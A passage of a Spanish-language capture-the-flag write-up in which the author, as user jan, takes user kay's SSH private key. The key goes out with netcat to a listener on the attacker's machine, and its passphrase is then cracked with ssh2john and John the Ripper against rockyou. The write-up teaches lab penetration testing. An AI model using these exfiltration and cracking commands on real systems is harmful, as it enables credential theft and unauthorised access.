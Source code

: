 Observamos que contamos con permisos de lectura para el todos los archivos dentro del directorio. Nos compartimos el archivo de interés: `id_rsa`:

```bash
jan@basic2:/home/kay/.ssh$ nc 10.9.85.95 443 < id_rsa   
jan@basic2:/home/kay/.ssh$ md5sum id_rsa
fb808a4da73226da99694e18e09fec9f  id_rsa
jan@basic2:/home/kay/.ssh$ 
```

```bash
❯ nc -nlvp 443 > id_rsa
listening on [any] 443 ...
connect to [10.9.85.95] from (UNKNOWN) [10.10.228.37] 37156
❯ md5sum id_rsa
fb808a4da73226da99694e18e09fec9f  id_rsa
```

Si tratamos de acceder vía ssh como el usuario **kay**, nos indica que el archivo id_rsa tiene contraseña, por lo que vamos a tratar de crackearla usando la herramienta [ssh2john](https://github.com/openwall/john/blob/bleeding-jumbo/run/ssh2john.py):

```bash
❯ wget https://raw.githubusercontent.com/openwall/john/bleeding-jumbo/run/ssh2john.py
--2023-06-17 18:32:02--  https://raw.githubusercontent.com/openwall/john/bleeding-jumbo/run/ssh2john.py
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.109.133, 185.199.110.133, 185.199.111.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.109.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 9677 (9.5K) [text/plain]
Saving to: ‘ssh2john.py’

ssh2john.py                                     100%[====================================================================================================>]   9.45K  --.-KB/s    in 0.001s  

2023-06-17 18:32:05 (9.17 MB/s) - ‘ssh2john.py’ saved [9677/9677]

❯ python3 ssh2john.py id_rsa > hashes
```

Ahora procedemos a obtener la contraseña del archivo **id_rsa**:

```bash
❯ john --wordlist=/usr/share/wordlists/rockyou.txt hashes
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 16 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
beeswax          (id_rsa)
1g 0:00:00:07 DONE (2023-06-17 18:33) 0.1406g/s 2017Kp/s 2017Kc/s 2017KC/s  0125457423 ..*7¡Vamos!
Session completed
```

